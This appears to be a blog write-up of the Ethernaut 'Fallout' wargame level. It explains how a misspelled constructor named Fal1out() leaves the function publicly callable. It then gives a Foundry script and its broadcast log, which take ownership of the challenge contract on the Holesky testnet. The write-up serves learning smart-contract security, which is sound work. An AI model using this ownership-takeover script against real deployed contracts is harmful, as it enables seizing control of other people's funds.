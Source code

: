 ```yaml
---
layout: post
title: "Fallout"
tags: blockchain ethernaut foundry
---
```


# Analysis

---
The goal is

1. Claim ownership of the contract below

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

[Solidity 0.6.0 Documentation - constructors](https://docs.soliditylang.org/en/v0.6.0/contracts.html#constructors)

<aside>
💡

Prior to version 0.4.22, constructors were defined as functions with the same name as the contract. This syntax was deprecated and is not allowed anymore in version 0.5.0.

</aside>

For some reason, the intended `constructor` code was written as `Fal1out()`, preventing it from acting as a `constructor` and allowing external access, which enables claiming `owner`.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "../src/Fallout.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract FallbackSol is Script {
    Fallout public fallout_ = Fallout(0x28eA66cBFb2900Bea8bb84f058d740ce0Ab751CB);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        fallout_.Fal1out();
        console.log("Contract owner: ", fallout_.owner());

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/FalloutSol.sol --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Script ran successfully.

== Logs ==
  Contract owner:  0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.002095526 gwei

Estimated total gas used for script: 62992

Estimated amount required: 0.000000132001373792 ETH

==========================

##### holesky
✅  [Success] Hash: 0xcaa845bc5fa9ebb3adcb5902c12ffa24c14a609adc31cd0b789bfae23b11c5aa
Block: 3669787
Paid: 0.000000095568239514 ETH (45606 gas * 0.002095519 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000095568239514 ETH (45606 gas * avg 0.002095519 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-17-Fallback/complete.png)